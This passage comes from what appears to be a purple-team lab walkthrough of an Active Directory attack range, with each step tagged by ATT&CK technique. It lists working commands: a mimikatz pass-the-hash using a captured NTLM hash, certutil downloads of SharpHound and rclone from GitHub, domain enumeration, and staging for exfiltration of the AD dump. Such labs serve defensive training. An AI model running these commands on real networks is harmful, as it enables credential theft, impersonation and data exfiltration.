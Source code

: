 You should be able to see the NTLM hash of `billh` domain user and can now use it move forward with attacking AD.

### Pass the Hash

While still in `mimikatz` we can use that hash of the domain user (`ATTACKRANGE\billh`) in an Pass-the-Hash attack to start a PowerShell with a Kerberos ticket belonging to that user (i.e. impersonate that user).

**Step 10**
> [!IMPORTANT]
> Replace \<NTLM-hash\> with the actual sting obtained from the previous step

```PowerShell
[ITSERVER:mimikatz] sekurlsa::pth /user:billh /ntlm:<NTLM-hash> /domain:attackrange /run:powershell
```
ATT&CK Techniques: `T1550.002`

This will spawn a new PowerShell. If you run `whoami` you will still see `PurpleUser`, however, as far as other services are concerned, you are `ATTACKRANGE\billh`.

### Enumerate AD

Now that we are in control of an AD user, let's enumerate the domain and find a way to escalate our privileges to Domain Admin.
Let's use popular tool called `Bloodhound` to gather the data and then visualize it.

We can download the data collector with `certutil` as before

**Step 11**
```PowerShell
[ITSERVER:PowerShell] certutil -urlcache -f https://github.com/MihhailSokolov/SecTools/raw/main/SharpHound.exe C:\Temp\sh.exe
```
ATT&CK Techniques: `T1105`

And then run it to collect all data about the domain, its users, computers, groups and their privileges

**Step 12**
```PowerShell
[ITSERVER:PowerShell] C:\temp\sh.exe --memcache --zipfilename c.zip --outputdirectory C:\temp\
```
ATT&CK Techniques: `T1087.001` `T1087.002` `T1560` `T1059.001` `T1482` `T1615` `T1106` `T1201` `T1069.001` `T1069.002` `T1018` `T1033`

### Exfiltrate AD dump

To exfiltrate the AD data collection, we will use `rclone`.

Let's download `rclone` executable on the system first:

**Step 13**
```PowerShell
[ITSERVER:PowerShell] certutil -urlcache -f https://github.com/MihhailSokolov/SecTools/raw/main/rclone.exe C:\Temp\r.exe
```
ATT&CK Techniques: `T1105`
